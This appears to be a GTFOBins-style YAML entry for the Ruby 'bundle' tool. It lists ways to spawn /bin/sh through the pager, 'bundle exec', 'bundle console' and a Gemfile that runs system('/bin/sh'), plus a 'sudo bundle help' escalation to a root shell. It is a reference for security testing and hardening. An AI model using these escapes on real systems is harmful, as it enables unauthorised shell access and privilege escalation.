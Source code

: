 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        bundle help
        !/bin/sh
    - code: |
        export BUNDLE_GEMFILE=x
        bundle exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundle install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo bundle help
        !/bin/sh
---
```

